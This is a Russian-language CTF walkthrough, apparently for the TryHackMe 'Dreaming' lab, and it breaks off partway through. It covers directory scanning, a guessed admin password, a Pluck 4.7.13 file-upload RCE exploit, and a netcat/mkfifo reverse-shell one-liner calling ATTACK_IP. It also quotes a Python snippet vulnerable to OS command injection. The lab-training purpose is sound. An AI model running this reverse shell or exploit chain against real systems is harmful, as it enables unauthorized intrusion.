








https://tryhackme.com/room/dreaming

## Первичный анализ
Переходим по адресу лабораторной машины, там нас встречает стандартное приветствие Apache.
Просканируем директории с помощью Gobuster.

<p align="center">
  
  <br>
  <em>Результат сканирования Gobuster</em>
</p>

Gobuster нашел директорию `/app`. При переходе туда замечаем интересную папку <b>pluck-4.7.13</b>.
<br>

<p align='center'>
  
</p>

А через нее можем попасть на страницу входа в админку. <br>

<p align='center'>
  
</p>

> [!NOTE]
> <b>Pluck</b> – это система управления контентом на PHP. Версия <b>4.7.13</b> уязвима для удаленного выполнения кода ().
> Суть заключается в том, что в функции управления файлами нет должной проверки расширений загружаемых файлов.
> Имея права администратора мы можем обойти ограничения файла `.htaccess` и черный список расширений. Нам необходимо загрузить PHP-скрипт (`.phar`). Apache обработает его как исполняемый PHP-код. Это даст нам веб-оболочку для удаленного доступа к файловой системе на сервере.

## Эксплуатация

На странице входа достаточно проверить несколько стандартных паролей, чтобы найти правильный – `password`.
Немного осмотревшись после успешной авторизации, находим тот самый уязвимый элемент Pluck – страницу загрузки файлов.
Теперь наша задача состоит в поиске подходящего эксплойта. Его можно найти на Exploit Database или Packet Storm.

<p align='center'>
  
  <br>
  <em>Exploit Database</em>
</p>

Скачиваем эксплойт, корректируем его в соответствии с данными нашей целевой машины и запускаем скрипт.

<p>
  
  <br>
  <em>Входные параметры из готового эксплойта с Exploit Database. Задаем IP-адрес цели, порт, пароль от учетной записи администратора и путь до Pluck CMS</em>
</p>
<br clear='left'/>

<p align='right'>
  
  <br>
  <em>Подстановка параметров и результат работы эксплойта</em>
</p>
<br clear='right'/>

<p align='center'>
  
  <br>
  <em>Web Shell на целевой машине</em>
</p>

После получения доступа к веб-оболочке надо бы настроить обратную оболочку для большего контроля. Это я делаю с помощью <b>Netcat</b> и <b>mkfifo</b>.

> [!NOTE]
> Утилита и системный вызов <b>mkfifo</b> создают именованный канал (FIFO – First In, First Out), который позволяет различным процессам обмениваться данными через файловую систему.

`nc -lvnp 9001` – для прослушивания на атакующей машине. <br>
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ATTACK_IP 9001 >/tmp/f` – для реверс оболочки.

<p align='center'>
  
  <br>
  <em>Прослушивание порта 9001 на атакующей машине через Netcat</em>
  <br> <br>
  
  <br>
  <em>Выполнение полезной нагрузки (payload) для обратного соединения через порт 9001.</em>
</p>

Прогулявшись по файловой системе удалось найти, где хранятся флаги, необходимые для задания:
- `/home/lucien`
- `/home/death`
- `/home/morpheus`

Но просто так прочитать их, разумеется, не получится, прав доступа недостаточно.
<br>
## Первый флаг (Lucien)
В директории `/opt` есть два интересных файла: `getDreams.py` и `test.py`.
<br>
1. `getDreams.py` подключается к БД MySQL, получает из нее данные и выводит их в консоль.

<p align='center'>
  
  <br>
  <em>На скриншоте представлена только часть <code>getDreams.py</code></em>
</p>

Здесь можно заметить, что доступ к БД `library` есть только у пользователя `death`. Подключение к `localhost` => БД расположена на той же машине, что и скрипт. <br>
SQL-запрос в коде выглядит так: `SELECT dreamer, dream FROM dreams;`. Отсюда мы узнаем название таблицы и столбцов в ней. <br>
Также в коде присутствует и такая часть:
```
command = f"echo {dreamer} + {dream}"
shell = subprocess.check_output(command, text=True, shell=True)
print(shell)
```
Данные из БД напрямую подставляются в системную команду. Тогда, если мы получим доступ к редактированию данных в БД, сможем воспользоваться уязвимостью <b>OS Command Injection</b>. Не уверена, пригодится ли это в данной задаче, но лучше помнить об этом. <br>

2. В `test.py` находим пароль Люсьен!

<p align='center'>
  
</p>
